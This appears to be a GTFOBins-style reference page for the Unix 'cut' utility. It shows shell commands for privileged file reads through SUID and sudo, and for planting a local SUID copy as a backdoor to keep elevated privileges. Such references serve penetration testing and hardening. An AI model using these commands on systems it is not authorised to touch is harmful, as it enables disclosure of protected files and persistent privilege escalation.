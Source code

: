 # GTFOBin: cut

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
cut -d "" -f1 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which cut) .

LFILE=file_to_read
./cut -d "" -f1 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo cut -d "" -f1 "$LFILE"
```